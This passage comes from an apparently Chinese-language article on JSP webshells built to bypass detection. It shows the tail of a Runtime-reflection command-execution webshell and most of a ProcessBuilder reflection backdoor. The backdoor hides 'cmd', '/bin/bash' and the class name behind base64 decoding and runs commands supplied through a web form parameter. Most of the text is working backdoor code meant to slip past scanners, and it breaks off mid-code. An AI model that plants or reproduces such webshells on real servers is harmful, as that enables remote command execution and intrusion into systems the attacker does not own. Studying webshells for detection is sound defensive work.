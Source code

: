 ```jsp
        result = sc.hasNext() ? sc.next() : result;
        sc.close();
        return result;
    }
%>

<%
    String name ="Input Nothing";
    String query = request.getParameter("q");
    if(query != null) {
        name = getPicture(query);
    }
%>

<pre>
<%= name %>
</pre>

</BODY>
</HTML>
```

在Runtime-reflect-cmd.jsp 脚本中：<%! %>标签里声明了用来执行系统命令的getPicture方法，<% %>标签里接受输入的命令，调用了getPicture方法，执行命令并返回结果<%= %>标签里输出系统命令执行结果到网页的\<pre>标签对中。

#### 二. 反射ProcessBuilder

查找资料，可以发现已有使用过Runtime反射后门的代码。那么既然可以反射Runtime，其实也可以构造出利用ProcessBuilder类start函数的jsp反射后门。

以下后门代码命名为[ProcessBuilder-reflect-cmd.jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/ProcessBuilder-reflect-cmd.jsp)

```jsp
<%@ page pageEncoding="UTF-8" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="sun.misc.BASE64Encoder" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>

<FORM METHOD=POST ACTION='#'>
    <INPUT name='q' type=text>
    <INPUT type=submit value='Fly'>
</FORM>

<%!
    public static String getPicture(String str) throws Exception {
        List<String> list = new ArrayList<String>();
        BASE64Decoder decoder = new BASE64Decoder();
        BASE64Encoder encoder = new BASE64Encoder();
        String fileSeparator = String.valueOf(java.io.File.separatorChar);
        if(fileSeparator.equals("\\")){
            list.add(new String(decoder.decodeBuffer("Y21k")));
            list.add(new String(decoder.decodeBuffer("L2M=")));
        }else{
            list.add(new String(decoder.decodeBuffer("L2Jpbi9iYXNo")));
            list.add(new String(decoder.decodeBuffer("LWM=")));
        }
        list.add(new String(decoder.decodeBuffer(str)));
        Class PB = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlByb2Nlc3NCdWlsZGVy")));
```